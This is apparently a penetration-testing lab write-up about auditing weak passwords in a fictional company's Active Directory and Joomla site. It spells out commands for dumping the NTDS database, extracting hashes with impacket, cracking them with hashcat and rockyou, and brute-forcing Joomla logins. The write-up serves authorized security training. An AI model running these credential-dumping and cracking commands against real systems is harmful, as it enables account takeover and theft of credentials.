

# Challenge 11 (T0028) - Penetration Testing: Bringing Passwords Up To Snuff (Complexity 1)

## Challenge Info
**Author:** Bailey Kasin<br>
**Framework Category:** Protect and Defend<br>
**Specialty Area:** Vulnerability Assessment and Management<br>
**Work Role:** Vulnerability Assessment Analyst<br>
**Task Description:** Conduct and/or support authorized penetration testing on enterprise network assets.

### Scenario
We have reason to believe that some of our employees have weaker than should be acceptable passwords, so we want you to conduct authorized penetration testing against various company assets to determine which employees need to change their passwords.

### Additional Information
More details and objectives about this challenge will be introduced during the challenge meeting, which will start once you begin deploying the challenge.

You will be able to check your progress during this challenge using the check panel within the workspace once the challenge is deployed. The checks within the check panel report on the state of some or all of the required tasks within the challenge.

Once you have completed the requested tasks, you will need to document the methodology you used with as much detail and professionalism as necessary. This should be done on the documentation tab within the workspace once the challenge is deployed. Below the main documentation section be sure to include a tagged list of applications you used to complete the challenge.

Your username/password to access all virtual machines and services within the workspace will be the following...<br>
**Username:** `playerone`<br>
**Password:** `password123`

The username/password used to access the Firewall's web interface within the workspace will be the following...<br>
**Username:** `admin`<br>
**Password:** `password123`

## Meeting Notes


## Network Map


## Documentation
There were two objectives to this challenge:

1. Find and force a password reset for the accounts that were using compromised/insecure passwords in both the Active Directory (AD) and Joomla website systems.
2. Do not force a password reset for accounts that do not need it.

### Active Directory
Since I had admin access to AD, then it would be easy to retrieve a dump of password hashes for all user accounts.

In an admin-elevated PowerShell on the Domain Controller, I ran the following command:

```cmd
ntdsutil "ac i ntds" "ifm" "create full c:\temp\ntdsdump" q q
```

This provided me with a directory called `C:\temp\ntdsdump` with account data--including password hashes.

However, I needed a way to extract the hashes with their corresponding usernames. For this, I moved the data to a shared drive on a server `172.16.20.55`. I then logged into the Security-Desk Kali Linux computer and used `scp` to copy the data:

```bash
scp -r /home/share/management/tempntdsump/ playerone@172.16.20.55:~/
```

Now that I had the data, I could begin extracting and cracking the hashes. I used a combination of a Python module, called `impacket`, and hashcat to get the job done. The former would extract the hashes, while the latter would do the actual cracking with a wordlist on the Kali Linux box.

```bash
python3 ..impacket/examples/secretsdump.py -ntds ntds.dit -system ../registry/SYSTEM -hashes lmhash:nthash -output ntds.out LOCAL
grep -v '$:' ntds.out.ntds > ntds.out.filtered
hashcat -a 0 -m 1000 -w 3 -O -o cracked ntds.out.filtered /usr/share/wordlists/rockyou.txt
hashcat -m 1000 --show --username ntds.out.filtered
```

The end result was two accounts that had compromised passwords:

```
prettysafeelectronics.io/nkeefe
prettysafeelectronics.io/jcortes
```

Hopping back on the Domain Controller, I ran the following PowerShell cmdlets to force password resets on the next login event.

```pwsh
Get-ADUser jcortes | Set-ADUser -ChangePasswordAtLogon $true -PasswordNeverExpires $false
Get-ADUser nkeefe | Set-ADUser -ChangePasswordAtLogon $true -PasswordNeverExpires $false
```

### Joomla
This website was more challenging. I did not know of any way to dump the usernames and password hashes for the accounts on the site, so I instead took to using Metasploit to try and bruteforce my way into solving the problem.

I used the `auxiliary/scanner/http/joomla_bruteforce_login` module in Metasploit, but this did not work; the module failed to compromise any accounts.

The commands I attempted to use were the following:

```bash
msfconsole
use auxiliary/scanner/http/joomla_bruteforce_login
set PASS_FILE /usr/share/wordlists/rockyou.txt
set USER_FILE ./joomlausers
set RHOSTS 172.16.10.100
set STOP_ON_SUCCESS true
exploit
```

However, I was able to use a [Python script](https://github.com/ajnik/joomla-bruteforce) to crack the accounts:

```bash
while read i; do echo -e "Cracking "${i};python3 joomla-brute.py -u http://172.16.10.100 -w rockyou.txt -usr ${i};done < joomlausers
```

The result accounts needed their passwords reset:

```
manderson
tclark
admin
```

## NICE Framework & CAE KU Mapping
### NICE Framework KSA
- A0123. Ability to apply cybersecurity and privacy principles to organizational requirements (relevant to confidentiality, integrity, availability, authentication, non-repudiation).
- K0002. Knowledge of risk management processes (e.g., methods for assessing and mitigating risk).
- K0003. Knowledge of laws, regulations, policies, and ethics as they relate to cybersecurity and privacy.
- K0004. Knowledge of cybersecurity and privacy principles.
- K0005. Knowledge of cyber threats and vulnerabilities.
- K0009. Knowledge of application vulnerabilities.
- K0044. Knowledge of cybersecurity and privacy principles and organizational requirements (relevant to confidentiality, integrity, availability, authentication, non-repudiation).
- K0167. Knowledge of system administration, network, and operating system hardening techniques.
- K0206. Knowledge of ethical hacking principles and techniques.
- K0342. Knowledge of penetration testing principles, tools, and techniques.
- S0044. Skill in mimicking threat behaviors.
- S0051. Skill in the use of penetration testing tools and techniques.

### CAE Knowledge Units
- Cybersecurity Ethics
- Cybersecurity Foundations
- Cybersecurity Planning and Management
- Cybersecurity Principles
- Cyber Threats
- Penetration Testing
- Policy, Legal, Ethics, and Compliance
- Privacy
- Web Application Security